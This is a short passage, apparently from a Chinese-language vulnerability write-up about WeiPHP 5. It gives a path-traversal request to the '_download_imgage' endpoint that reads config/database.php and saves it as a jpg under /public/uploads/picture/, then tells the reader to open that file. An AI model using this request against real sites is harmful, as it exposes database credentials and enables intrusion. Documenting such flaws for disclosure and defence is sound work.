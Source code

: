 
```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](../../../.vuepress/public/img/weiphp-5.png)



查看目录**/public/uploads/picture/**，并用记事本打开写入的jpg文件


